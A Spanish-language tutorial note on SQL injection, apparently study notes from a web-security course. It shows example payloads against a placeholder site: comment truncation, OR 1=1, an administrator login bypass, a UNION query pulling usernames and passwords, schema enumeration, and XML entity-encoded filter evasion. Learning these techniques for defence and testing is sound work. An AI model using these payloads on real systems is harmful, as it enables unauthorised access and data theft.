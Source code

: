 # Inyección SQL (SQLi)

Es una vulnerabilidad web que permite al atacante interferir con las consultas que una aplicación hace a su base de datos. Esto puede permitir acceso a datos confidenciales como contraseñas, datos de tarjeta de crédito e información personal.

---

## Cómo detectar vulnerabilidades de inyección SQL

Realizar un conjunto sistemático de pruebas manuales en cada punto de entrada de la aplicación:

* Insertar un apóstrofo (`'`) al escribir para buscar errores o anomalías.
* Probar condiciones booleanas y comparar respuestas: por ejemplo `OR 1=1` vs `OR 1=2`.
* Usar payloads que provoquen retrasos (time-based) y observar diferencias en el tiempo de respuesta.

---

## Inyección SQL en diferentes partes de la consulta

Suele encontrarse en cláusulas `WHERE` y en consultas `SELECT`, pero también puede aparecer en:

* `UPDATE`: dentro de los valores actualizados o en la cláusula `WHERE`.
* `INSERT`: dentro de los valores insertados.
* `SELECT`: dentro del nombre de la tabla o columna.
* `SELECT`: en la cláusula `ORDER BY`.

---

## Recuperación de datos ocultos (ejemplos)

URL vulnerable:

```
https://insecure-website.com/products?category=Gifts
```

Consulta generada por la aplicación:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

* Forzar comentario para eliminar condiciones:

```
https://insecure-website.com/products?category=Gifts'--
```

Resultado en SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Se elimina `AND released = 1` y se muestran más productos.

* Forzar `OR 1=1` para devolver todos los elementos:

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Resultado en SQL:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

`1=1` siempre es verdadero, por lo que la consulta devuelve todos los registros.

> Si `OR 1=1` se aplica en `UPDATE` o `DELETE`, se pueden perder o modificar datos accidentalmente.

---

## Subvertir la lógica de la aplicación (ejemplo de login)

Consulta esperada:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

Input malicioso:

```
username: administrator'--
password: (vacío)
```

Consulta resultante:

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

La parte tras `--` queda comentada, permitiendo autenticarse como `administrator` si ese usuario existe.

---

## Recuperación de datos de otras tablas (UNION)

Consulta original:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

Payload de ataque:

```
' UNION SELECT username, password FROM users--
```

Si la aplicación concatena o muestra resultados, puede devolver `username` y `password` desde la tabla `users` junto con los campos de `products`.

---

## Vuln SQLi ciega (blind SQLi)

La aplicación no devuelve los resultados de la consulta ni detalles de errores de la base de datos en sus respuestas, por lo que el atacante debe inferir información mediante pruebas booleanas o de tiempo.

---

## Inyección SQL de segundo orden (resumen)

La inyección SQL de segundo orden ocurre cuando:

1. La aplicación recibe entrada del usuario y la **almacena** (por ejemplo en la base de datos) sin que en ese punto se produzca un fallo visible.
2. Más tarde, la aplicación **recupera** esos datos y los incorpora en una consulta SQL de forma insegura.

* Causa típica: los desarrolladores **asumen** que los datos previamente almacenados son seguros y los reutilizan sin validación ni escape.
* Consecuencia: los datos almacenados pueden ejecutar código malicioso cuando se vuelven a procesar (lectura, modificación o eliminación de datos).

*(También conocida como inyección SQL almacenada.)*

---

## Examinando bases de datos (resumen)

Después de identificar una vulnerabilidad SQLi, obtener información sobre la base de datos ayuda a explotar la vulnerabilidad y adaptar payloads.

* Conceptos:

  * Existen variantes de SQL según el motor (MySQL, PostgreSQL, Oracle, SQL Server, etc.).
  * Conocer el motor y la versión permite usar consultas y funciones específicas.

* Consultas de ejemplo citadas en los apuntes:

```sql
-- Ver la versión (ejemplo mencionado)
SELECT * FROM v$version

-- Listar tablas (esquema estándar)
SELECT * FROM information_schema.tables
```

* Nota: los nombres de vistas y la sintaxis pueden variar según el motor; adaptar las consultas al objetivo.

---

## SQLi en diferentes contextos (JSON / XML)

Algunos sitios reciben datos en formatos como JSON o XML. Ejemplo de payload XML con escape:

```xml
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

El escape `&#x53;` representa la letra `S`; esto puede decodificarse en el servidor antes de pasar al intérprete SQL.

---

*Fin del documento — contenido reestructurado y corregido manteniendo únicamente la información original proporcionada.*
